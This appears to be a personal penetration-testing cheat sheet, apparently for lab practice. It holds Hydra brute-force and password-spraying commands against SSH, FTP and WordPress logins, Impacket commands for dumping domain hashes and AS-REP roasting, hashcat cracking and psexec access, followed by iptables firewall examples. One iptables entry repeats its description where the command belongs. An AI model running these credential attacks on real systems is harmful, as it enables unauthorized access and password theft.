 ## hydra

I mainly created this part because of the web login attack part. Sometimes it's hard to remember the syntax.

- `hydra -l <user name> -P <full path to the password list> ssh://<IP>` using Hydra against SSH
- `hydra -l <username> -P <full path to the password list> ftp://<IP>` using Hydra against
- `hydra -L <username list> -p <password> <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30` you can capture the error message (Invalid username) by trying a credential on the target website and replace the one I have in this syntax if needed. This example tests several usernames for the same password, a technique also called password spraying.

## Impacket

- if got ntds.dit and SYSTEM files (SeBackupPrivilege) then use secretsdump: `secretsdump.py -ntds ./ntds.dit -system ./SYSTEM LOCAL`
- ASREPROASTING: `GetNPUsers.py spookysec.local/svc-admin -no-pass -format hashcat -dc-ip 10.10.159.22 -k | tee asrep-result.txt` and for cracking the hashes: `hashcat -m 18200 --wordlist /usr/share/wordlists/rockyou.txt -O --show`

## psexec

- `psexec.py <username>:'<password>'@<IP>`

## Install Python3 on Ubuntu

- `sudo apt install python3 python3-pip build-essential python3-dev`

## ip add

- `route` and `ip route add 192.168.222.0/24 via 10.175.34.1`

## iptables

- This example shows **how to block all connections** from the IP address 10.10.10.10. `This example shows how to block all connections from the IP address 10.10.10.10.`
- This example shows how to block all of the IP addresses in the 10.10.10.0/24 network range. You can use a netmask or standard slash notation to specify the range of IP addresses. `iptables -A INPUT -s 10.10.10.0/24 -j DROP` or `iptables -A INPUT -s 10.10.10.0/255.255.255.0 -j DROP`
- **Connections to a specific port:** This example shows how to block SSH connections from 10.10.10.10. `iptables -A INPUT -p tcp --dport ssh -s 10.10.10.10 -j DROP`
- This example shows how to block SSH connections from any IP address. `iptables -A INPUT -p tcp --dport ssh -j DROP`
- **Connection States:** the capability you’d need to allow two way communication but only allow one way connections to be established. Take a look at this example, where SSH connections FROM 10.10.10.10 are permitted, but SSH connections TO 10.10.10.10 are not. However, the system is permitted to send back information over SSH as long as the session has already been established, which makes SSH communication possible between these two hosts.
    - `iptables -A INPUT -p tcp --dport ssh -s 10.10.10.10 -m state --state NEW,ESTABLISHED -j ACCEPT`
    - `iptables -A OUTPUT -p tcp --sport 22 -d 10.10.10.10 -m state --state ESTABLISHED -j ACCEPT`
- **Saving Changes:** The changes that you make to your iptables rules will be scrapped the next time that the iptables service gets restarted unless you execute a command to save the changes. This command can differ depending on your distribution: `sudo /sbin/iptables-save`
- Drop all incoming traffic from any source IP address except from 192.168.12.12 `iptables -A INPUT -s ! 192.168.12.12 -j DROP`
- To delete a rule that allows incoming traffic from the IP address 192.168.12.13 `iptables -D INPUT -s 192.168.12.13 -j ACCEPT`
- iptables set default policy `iptables -P INPUT DROP`
- To save rules to a file at /etc/iptables/rules.v4 `iptables-save > /path/to/file`
- To restore rules run `iptables-restore < /path/to/file`